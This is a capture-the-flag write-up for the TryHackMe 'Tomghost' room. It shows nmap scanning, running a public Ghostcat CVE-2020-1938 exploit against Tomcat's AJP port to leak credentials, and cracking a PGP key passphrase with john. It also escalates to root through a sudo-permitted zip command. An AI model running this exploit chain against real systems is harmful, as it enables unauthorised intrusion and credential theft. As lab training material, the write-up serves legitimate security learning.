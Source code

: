 # Tomghost
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Admins Note: This room contains inappropriate content in the form of a username that contains a swear word and should be noted for an educational setting. - Dark

Tags
--
* AJP Connector
* Ghostcat CVE-2020-1938
* Hash Cracking
* Decryption
* Sudoers

Tools used
--
* nmap
* CVE-2020-1938.py
* gpg2john
* john
* gpg

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.18.94
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.18.94 -p- -T5 -vvv

<SNIP>
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open  tcpwrapped syn-ack ttl 63
8009/tcp open  ajp13      syn-ack ttl 63 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack ttl 63 Apache Tomcat 9.0.30
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```
Interesting looking for 8009 port. It is related to AJP connector, so it could be prone to the Ghostcat CVE-2020-1938. Read https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md for details.

Phase 2: Foothold
--
Let's retrieve an exploit and run it:
```
git clone https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat.git
cd Hacking-Vulnerability-CVE-2020-1938-Ghostcat/

python2 CVE-2020-1938.py 10.10.18.94 -p 8009 -f WEB-INF/web.xml
```
The output will contain at the end a string like:
```
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>
```
They seem to refer to an account. Let's use it for connecting by SSH:
```
ssh 10.10.18.94 -l skyfuck
```
Get the user flag by:
```
cat ../merlin/user.txt
```
Phase 3: Privilege Escalation
--
In the home folder of `skyfucker` user, we have two files: `credentials.pgp` (an encrypted file) and `tryhackme.asc` (a private key).

It should suggest us that the private key is used to decrypt the encrypted file, but we still need to retrieve the passphrase of the private key for decrypting. Let's copy the private key in the attacker machine and let's crack it:
```
scp skyfuck@10.10.18.94:/home/skyfuck/tryhackme.asc ./

gpg2john tryhackme.asc > gpg.hash
john gpg.hash --wordlist=./rockyou.txt

<SNIP>
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
<SNIP>
```
Go back to the victim machine and decrypt `credential.pgp` file:
```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
<alexandrou>

merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```
Let's access by merlin account:
```
su merlin
<asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j>
```
Let's see what merlin can run as sudo:
```
sudo -l

Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
Let's use `zip` command for zipping the root flag file and saving it in merlin current folder:
```
sudo /usr/bin/zip -1 -r flag.zip /root/root.txt

unzip flag.zip
cat root/root.txt
```
We got the root flag.
